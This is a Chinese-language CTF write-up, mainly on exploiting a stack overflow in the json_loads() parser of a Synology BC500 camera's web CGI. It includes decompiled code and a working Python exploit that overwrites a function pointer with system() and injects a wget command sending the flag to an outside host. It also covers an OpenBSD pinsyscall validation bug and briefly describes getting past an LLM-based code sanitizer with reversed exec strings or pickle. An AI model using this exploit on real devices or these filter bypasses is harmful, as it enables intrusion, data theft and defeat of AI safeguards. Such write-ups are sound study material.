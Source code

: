 # Pwn



## RIPTC



## Let's party in the house

雖然可以用 QEMU 執行起來，但因為會輸出許多 log message，因此一般情況下很難 debug。不過修改 init script 結尾的部分成下方 script 片段即可解決：

```bash
/bin/busybox sh </dev/console >/dev/console &
exec /sbin/init "$@" < /dev/console >/dev/null 2>&1
```

- sh 在 background 還是會吃 TTY，所以還是可以讀輸入

但這會發生一個現象，因為 `/sbin/init` 最後也會執行 `sh`，這導致兩個 `sh` 同時在搶 tty。

我們新增下方程式碼到 `/etc/init.d/S50_IPcamApp` 最後一行，讓 `/sbin/init` 在啟動 `webd` (http service 的 binary) 後不繼續跑，這樣就可以避免上述的情況。

```bash
/bin/busybox sleep 10000000
```

---

漏洞部分細節有出現在 [T5 的文章](https://teamt5.org/en/posts/teamt5-pwn2own-contest-experience-sharing-and-vulnerability-demonstration/)，稍微逆向一下後會發現 `json_loads()` 能夠觸發。

我們只能存取到 BC500 的 http service，該服務是由 `webd` 負責處理，在接收到請求後會先進行初步處理，最後交由 CGI 執行。有些 CGI 是 post-auth 才能戳到，同時考慮到預設環境是無法使用 post-auth 的 CGI，因此我們只需要挑選不用 auth 的 CGI 來分析即可。

我們選擇不去逆向來找出可以執行到 pre-auth CGI 的方式。首先我們用 `gdbserver` attach 上 `webd`，並下斷點在 call CGI 的 function，之後開始亂戳 URL path。

我們先戳 `webd` 的字串中有的 URL path，發現 `syno-api/security/info/language` 能走到 `synocam_param.cgi`，並且在逆向分析後發現如果 HTTP request 的 Content-Type 為 application/json，或是 POST payload 格式為 `{"json": {}}` 時，就會在底層執行到 `json_loads()`。

`json_loads()` 使用 `scanf()` 去讀 json object 的 key 與 value [1]，但使用的 stack buffer size 分別是固定的 32 以及 12，因此當 key 長度超過 32，或是 value size 超過 12 時，就會發生 stack overflow。而 overflow 後 function 並不會馬上離開，而是會接下去執行 `filter_char()` [2]：

```c
void *__fastcall sub_6AD4(_DWORD *a1, char a2, int a3)
{
  [...]
  char key[32]; // [sp+14h] [bp-40h] BYREF
  char value[12]; // [sp+34h] [bp-20h] BYREF
  [...]
  while ( 1 )
  {
    [...]
    
    _isoc99_sscanf(s, "%s %s", key, value); // [1]
    
    [...]
    
    filter_char(a1, a3); // [2]
	
    [...]
  }
  return 0;
}
```

`filter_char()` 會對 json 特殊字元或是 object 內容做處理，會呼叫到 `sub_581C()` [3]：

```c
int __fastcall filter_char(int a1, int a2)
{
  char *s1; // [sp+8h] [bp-Ch]
  int v6; // [sp+Ch] [bp-8h]
  int v7; // [sp+Ch] [bp-8h]

  [...]
  do
  {
    do
      v6 = sub_581C(a1, a2); // [3]
    while ( v6 == ' ' );
  }
  [...]
}
```

當 key 的大小超過 0xa4 時，會 overflow 到 `*a` 的內容，因此我們可以在 `sub_5418()` 使用 function pointer 時 [4] 攔截程式的執行流程。同時 `*(a1 + 4)` 會因為 string 最後 NULL byte 的關係造成 partial overwrite， 並剛好指向 stack 上可控的字串內容：

```c
int __fastcall sub_5418(int a1, int a2)
{
  [...]
  if ( *(a1 + 20) )
    return *(a1 + 20);
  if ( !*(a1 + *(a1 + 16) + 8) )
  {
    v8 = (*a1)(*(a1 + 4)); // [4]
  }
}
```

exploit 時有兩個需要注意的地方：

1. Json string 只能是 ascii，否則進不到 CGI
2. CGI 每次都會跑起來，並且沒有方式拿到回顯，因此 libc base address 需要撞

因此我們把 `*a` 蓋成 address 由 ascii 組成的 `system`，命令字串把 flag 複製成 index.html：

```python
# !/usr/bin/python3

from pwn import *
import requests

q = "47.88.48.133:32959"
system = 0x767e3070
payload = b'a'*28 + b'a;wget${IFS}http://XXXXXXX:8000/$(cat${IFS}/flag);cat${IFS}/flag>/www/index.html;'.ljust(0x88, b'a') + p32(system)
count = 0

while True:
    count += 1
    if count % 10 == 0:
        print(f"{count}/4096")
    try:
        data = b'json={"' + payload + b'"}'
        r = requests.post(f"http://{q}/syno-api/security/info/language", data=data, timeout=1)
        print(r.text)
    except KeyboardInterrupt:
        exit(1)
    except:
        pass
```

P.S. 一開始這個版本的 exploit 測了非常多次都沒有成功，之後經歷了許多次修修改改，最後在拿回來跑的時候就成功了



作者有提供 pre-built gdb/gdbserver 的下載連結

- https://bin.leommxj.com/



## 烫烫烫

OpenBSD – pinning all system calls ([討論串](https://marc.info/?t=170205374600002&r=1&w=2))

> More recently, I made another change, so that the execve(2) system call could
> only be called from a singular, precise point in a static binary or in libc.so.

引入能讓 syscall 在特定 binary 或是 libc 位址才能執行的機制

>msyscall — permit syscalls from a region of pages

過去實作的 `msyscall()` 讓 syscall 能夠在特定範圍內執行

> Like with msyscall(2) before, ld.so(1) does the same job of parsing the
> "openbsd.syscalls" in libc.so, and uses a new pinsyscall(2) system call to
> tell the kernel where the system calls are allowed to enter form.

現在 `pinsyscall()` 讓特定 system call 只會在一些位址被執行 ([man](https://web.archive.org/web/20230901223831/https://man.openbsd.org/pinsyscall.2))。

下方為 man page 的說明：

> NAME
> pinsyscall — specify the call stub for a specific system call
>
> SYNOPSIS
> #include <sys/types.h>
> #include <sys/syscall.h>
>
> int
> pinsyscall(int syscall, void *start, size_t len);
>
> DESCRIPTION
> The pinsyscall() system call specifies the start to start + len range in the address space where the call stub for the specified syscall resides. This range is typically under 80 bytes long, and varies by architecture.

`elf_read_pintable()` 會在 kernel load ELF 的過程中被呼叫，會從解析好的 Elf_Phdr 中取出相關資訊來更新 pin table。然而在初始版本中，`elf_read_pintable()` 沒有檢查 ELF 中的 `syscalls[]` object 是否合法：

```c
for (i = 0; i < nsyscalls; i++)
	npins = MAX(npins, syscalls[i].sysno);
npins = MAX(npins, SYS_kbind);		/* XXX see ld.so/loader.c */
npins++;
```

在後續的版本 ([patch](https://marc.info/?l=openbsd-tech&m=170234892604404&w=2)) 有新增額外的檢查，包含 `pinsyscalls.sysno` 以及 `pinsyscalls.offset`：

```c
for (i = 0; i < nsyscalls; i++) {
    if (syscalls[i].sysno <= 0 ||
        syscalls[i].sysno >= SYS_MAXSYSCALL ||
        syscalls[i].offset > len)
        goto bad;
    npins = MAX(npins, syscalls[i].sysno);
}
```



## Router4

未公開



## T-Box





# Misc

## LLM Sanitizer

System prompt 會要求 LLM 將使用者的輸入轉為 python script 並執行，但是會先過濾掉一些會執行到命令的 function

- 使用的 large language model (LLM) 即是 gpt-3.5-turbo-1106



繞掉的做法至少兩種：

1. 將 command 以倒序的方式傳入 + 執行 (`exec(cmd[::-1])`)
2. 用 pickle 的方式執行
